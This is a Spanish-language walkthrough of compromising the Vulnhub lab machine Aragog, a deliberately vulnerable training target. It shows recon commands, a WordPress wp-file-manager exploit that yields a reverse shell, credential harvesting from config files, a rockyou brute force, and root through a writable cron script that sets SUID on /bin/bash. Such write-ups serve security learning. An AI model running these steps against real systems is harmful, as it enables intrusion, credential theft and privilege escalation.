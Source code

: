 Tiramos nuestra rutina de reconocimiento con nmap: 

```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.101 -oN Target 

grep '^[1-9]' Target | cut -d '/' -f1 | sort -u | xargs | tr ' ' ','

nmap -sCV -p21,22,2222,80,9898 192.168.1.101 -oN TargetsCV
```

Gracias a nmap, vemos que hay un servicio ssh y un servicio http

```bash
PORT   STATE SERVICE REASON         VERSION  
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
| ssh-hostkey:    
|   2048 48:df:48:37:25:94:c4:74:6b:2c:62:73:bf:b4:9f:a9 (RSA)  
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSJJ1ZAbIA3lP2RbpxnhknzLJqrHne4be3xTLmVEXWg7YQ6FFZ/RA1VzmrFYPlvB1t1XwopptI+nA9BSG5+hllLyCQ1pDZkhIwyGHuBLZETD8cIJTlsxVCwnh67h7eeK4hTEtjp1rUodK30juDf5  
u7JnkwVfo78LvM8WV1LjVrmhsZiqzy1CxAoMFpiRp3ZlvpblL3gdd0wgSNrGqEwc6qJc6Z+RKGkLbnpgTnOsc6vGLs1xFOGrHF2qFeDpUWti0ZDSN31LtP1HtNItbBKSECcFD3KrN8nPaZCa2V9GA1jrpOOAF1j0ehcRlBoFqLZzQbO9RFeIkgqGNrz3  
PDt7vp  
|   256 1e:34:18:17:5e:17:95:8f:70:2f:80:a6:d5:b4:17:3e (ECDSA)  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBESZsj5u/F88CLIXTeBD8OgiCM2u8sKBgbvvjKccwFmCBMh3GmOHGP8qzzQwVTMkq1aN0WSIk7h8/cHCT2tZLzE=  
|   256 3e:79:5f:55:55:3b:12:75:96:b4:3e:e3:83:7a:54:94 (ED25519)  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMsH4OtBIy/He42Rc6KvtI6w2855JMLVloVFy5/0Rtj4  
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.38 ((Debian))  
| http-methods:    
|_  Supported Methods: GET POST OPTIONS HEAD  
|_http-title: Site doesn't have a title (text/html).  
|_http-server-header: Apache/2.4.38 (Debian)  
MAC Address: 08:00:27:DD:94:52 (Oracle VirtualBox virtual NIC)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el servicio http no vemos nada, vamos a fuzzear con gobuster a ver si encontramos algo:

```bash
gobuster dir -u "http://192.168.2.72/" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 20  
===============================================================  
Gobuster v3.6  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
===============================================================  
[+] Url:                     http://192.168.2.72/  
[+] Method:                  GET  
[+] Threads:                 20  
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt  
[+] Negative Status codes:   404  
[+] User Agent:              gobuster/3.6  
[+] Timeout:                 10s  
===============================================================  
Starting gobuster in directory enumeration mode  
===============================================================  
/blog                 (Status: 301) [Size: 311] [--> http://192.168.2.72/blog/]  
/javascript           (Status: 301) [Size: 317] [--> http://192.168.2.72/javascript/]  
/server-status        (Status: 403) [Size: 277]  
Progress: 224213 / 1185255 (18.92%)^C  
[!] Keyboard interrupt detected, terminating.  
Progress: 226628 / 1185255 (19.12%)  
===============================================================  
Finished  
===============================================================
```


Encontramos la ruta hacia /blog, vamos a ver que hay

<img src="https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/a1baa27a-23a2-4239-a102-231170506ced" width="250" height="250">

No nos resuelve, así que vamos a ver el código fuente en busca de el nombre del host para poder meterlo dentro de nuestro /etc/hosts y así poder ver bien la página web. Al parecer hay un dominio **aragog.hogwarts** y un subdominio **wordpress.aragog.hogwarts** >> /etc/hosts. Una vez dentro del blog podemos ver que es un wordpress y ademas que la url de inicio de la administración de wordpress esta por defecto en /wp-admin. Tiramos un whatweb para ver que versión de wordpress es:

```bash
whatweb http://wordpress.aragog.hogwarts/blog
```

<img src="https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/f6ade782-0eec-4884-9a57-600b7da00300" width="1000" height="100">

Tiramos un searchsploit  y encontramos los siguientes scripts:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/bcbe6367-b017-4b5a-8469-b536742d92be)

Antes de ver estos sploits, vamos a ver que nos dice wpscan:

```bash
wpscan --url http://wordpress.aragog.hogwarts/blog -e vp,u --api-token="APItoken"
```

<img src="https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/407e2201-4858-4d53-ac69-3c2f667f5403" width="500" height="500">

wpscan nos reporta un montón de vulnerabilidades, vamos a escoger una que pinte bien :)

He probado muchas de las vulnerabilidades que hay en el wpscan y al parecer son falsos positivos, vamos a probar con mi siguiente opción que es el scanner de Metasploit:

`scanner/http/wordpress_scanner`

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/605653bd-9d51-45c5-95fc-5178a75c2775)

Encontramos en este scanner la siguiente vulnerabilidad `wp-file-manager`

En el mismo Metasploit vemos que existe un exploit que explota esta vulnerabilidad, pero antes de ejecutarlo vamos a ver que hace:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/4049d8a3-4811-4b49-91cf-29c85d92c10f)

viendo un poco por encima el exploit lo que hace es meter un archivo malicioso en wordpress ubicado en **/wp-content/plugins/wp-file-manager/lib/files/malicioso.php** ejecutarlo y una vez que nos entable la reverse shell lo elimina, pues vamos a ejecutarlo a ver que pasa:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/fcfa2dbf-ab74-45e4-a1c3-aae753c22892)

Hacemos una reverse shell hacia mi máquina por comodidad: 

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/f2764571-fe98-47b0-91c8-2e5da10fd86c)

Ahora con una consola mucho mas usable, pues lo primero que vamos hacer al saber que es un wordpress es buscar el archivo wp-config.php, dentro de el vemos una ruta muy interesante llamada config-default.php

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/d790eaef-837e-4a94-b883-bc76c8771d22)

Dentro de este archivo pues se empieza a calentar la cosa:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/28f0ab92-0cb7-453b-9790-4cc6acdf431d)

acabamos de sacar las credenciales de la base de datos de el wordpress, vamos a ver que hay dentro

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/17c61c3c-1d04-4beb-bb7c-0c8217d8f949)

dentro encontramos una password encriptada y un usuario con el que supongo que podemos entrar al wordpress, ahora con un usuario valido vamos a probar a hacer una fuerza bruta con el diccionario rockyou:

```bash
wpscan --url "http://192.168.1.101/blog" -U hagrid98 -P /usr/share/wordlists/rockyou.txt --api-token="ApiToken"
```

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/5a83444f-8ed1-4d67-8d68-0160db64c0a5)


Una vez hecha la fuerza bruta, conseguimos la contraseña xd, vamos a entrar por ssh a ver si toca la flauta y efectivamente se conecta al ssh:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/d8af0a03-e81b-4c49-b085-614725db479b?with=250)

Conseguimos la flag de user, vamos a por el ruteo, empiezo con sudo -l el cual me dice que no esta instalado sudo en la máquina, buscamos por permisos SUID (find / -perm -4000 -ls 2>/dev/null) pues vamos a por tareas cron mi favorito, creamos el siguiente script para identificar tareas cron:

```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
    new_process=$(ps -eo user,command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "^[<>]" | grep -vE "procmon|command|kworker"
    old_process=$new_process
done
```

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/a662c4b5-599c-4588-99d1-9f68793fb228?with=50)


y como vemos hay un script que cada cierto tiempo se ejecuta con privilegios... pues tan simple como meter dentro de este comando **chmod u+s /bin/bash** y la próxima vez que se ejecute la bash va a tener permisos SUID y si ejecutamos bash -p vamos a conseguir una consola como administrador.

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/557f5f7f-9578-44c9-be2d-5fb67ded3356?with=100)


